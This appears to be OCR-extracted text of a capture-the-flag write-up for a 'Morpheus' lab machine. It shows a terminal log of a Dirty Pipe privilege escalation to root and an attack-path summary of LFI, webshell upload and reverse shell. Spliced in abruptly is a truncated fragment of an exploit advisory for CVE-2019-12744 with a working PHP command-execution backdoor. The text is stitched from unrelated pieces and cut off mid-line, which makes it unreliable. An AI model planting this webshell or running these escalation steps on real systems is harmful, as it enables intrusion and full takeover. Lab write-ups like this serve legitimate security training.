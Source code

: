 ```shell
-rw-r--r-- 1 www-data www-data    778 Nov 15 05:34 graffiti.php
-rw-r--r-- 1 www-data www-data    181 Nov 15 05:29 graffiti.txt
-rw-r--r-- 1 www-data www-data    348 Oct 28  2021 index.html
-rw-r--r-- 1 www-data www-data   5495 Nov 15  2023 php_reverse_shell.php
-rw-r--r-- 1 www-data www-data     47 Oct 28  2021 robots.txt
-rw-r--r-- 1 www-data www-data     31 Nov 15 05:41 shell.php
-rw-r--r-- 1 www-data www-data  44297 Oct 28  2021 trinity.jpeg
www-data@morpheus:/var/www/html$ chmod +x dirty_pipe.sh
chmod +x dirty_pipe.sh
www-data@morpheus:/var/www/html$ ./dirty_pipe.sh
./dirty_pipe.sh
/etc/passwd已备份到/tmp/passwd
It worked!

# 恢复原来的密码
rm -rf /etc/passwd
mv /tmp/passwd /etc/passwd
root@morpheus:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
root@morpheus:/var/www/html# ls /root
ls /root
FLAG.txt
root@morpheus:/var/www/html# cat /root/FLAG.txt
cat /root/FLAG.txt
You've won!

Let's hope Matrix: Resurrections rocks!
```

## Attack Path

scann web directory --> analysis php file --> LFI --> upload webshell --> get revers shell --> privilege escalation

s <5.1.11] (REQUIRED)
# Tested on: [NA]
# CVE : [CVE-2019-12744]

Exploit Steps:

Step 1: Login to the application and under any folder add a document.
Step 2: Choose the document as a simple php backdoor file or any backdoor/webshell could be used.

PHP Backdoor Code:
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
